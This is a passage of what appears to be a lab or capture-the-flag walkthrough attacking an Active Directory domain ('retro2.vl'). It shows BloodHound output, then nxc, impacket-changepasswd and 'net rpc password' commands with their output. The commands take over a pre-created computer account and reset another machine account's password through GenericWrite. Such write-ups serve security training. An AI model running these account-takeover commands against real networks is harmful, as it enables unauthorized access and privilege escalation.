 ```
INFO: Found 43 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: BLN01.retro2.vl
INFO: Done in 00M 20S
INFO: Compressing output into 20241213210217_bloodhound.zip
```

We find interesting path from `FS01` and `FS02` to `BLN01`

![](2.png)

We find nothing else. Let's try gaining access to `FS01`. We can start with [Pre-created Computers](https://trustedsec.com/blog/diving-into-pre-created-computer-accounts).
```
└─$ nxc smb retro2.vl -u 'fs01$' -p 'fs01'
SMB         10.10.100.238   445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.100.238   445    BLN01            [-] retro2.vl\fs01$:fs01 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
```

Seems like it works. Let's change the password using `impacket-changepasswd`
```
└─$ impacket-changepasswd 'retro2.vl/fs01$':fs01@retro2.vl -newpass 'P@ssw0rd!' -p rpc-samr            
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of retro2.vl\fs01$
[*] Connecting to DCE/RPC as retro2.vl\fs01$
[*] Password was changed successfully.
```

So we need to abuse `GenericWrite` over `ADMWS01` and add it to `services` group. To Abuse `GenericWrite` we can:
- Resource-based Constrained Delegation
- Shadow Credentials (We don't have ADCS)
- Targeted Kerberoasting (in case password is crackable)
But in our case, the box is `Windows Server 2008`, thus those techniques don't work. Someone hinted me about [unicodePwd](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/6e803168-f140-4d23-b2d3-c3a8ab5917d2), so let's try: 
```
└─$ net rpc password 'ADMWS01$' Passw0rd1 -U retro2.vl/'fs01$'%'P@ssw0rd!' -S BLN01.retro2.vl
```
```
└─$ nxc smb retro2.vl -u 'ADMWS01$' -p 'Passw0rd1'                                       
SMB         10.10.100.238   445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.100.238   445    BLN01            [+] retro2.vl\ADMWS01$:Passw0rd1 
```
